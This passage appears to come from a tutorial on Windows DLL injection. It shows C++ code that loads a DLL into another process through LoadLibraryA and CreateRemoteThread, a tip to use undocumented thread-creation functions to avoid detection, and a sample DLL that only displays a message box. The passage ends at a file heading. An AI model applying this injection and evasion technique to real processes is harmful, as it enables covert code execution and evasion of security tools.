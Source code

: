 > More about CreateRemoteThread [here](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

````
LPTHREAD_START_ROUTINE loadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
if (!loadLibraryAddress) {
    std::cout << "[-] Could not get the address of LoadLibrary function.";
}
HANDLE remoteThread = CreateRemoteThread(targetProcess, NULL, 0, loadLibraryAddress, dllPath, 0, NULL);
if (remoteThread == NULL) {
    std::cout << "[-] Could create new thread. Error code: " << GetLastError();
    return -1;
}

std::cout << "[+] New thread created successfully";
````

### Notes
- Instead of `CreateRemoteThread` we could use `NtCreateThreadEx` or `RtlCreateUserThread` undocumented functions in order to avoid detection.

## Source code
### dllmain.cpp

````
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"OK", L"Injection Successfull", MB_ICONINFORMATION);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````

### DllInjection.cpp
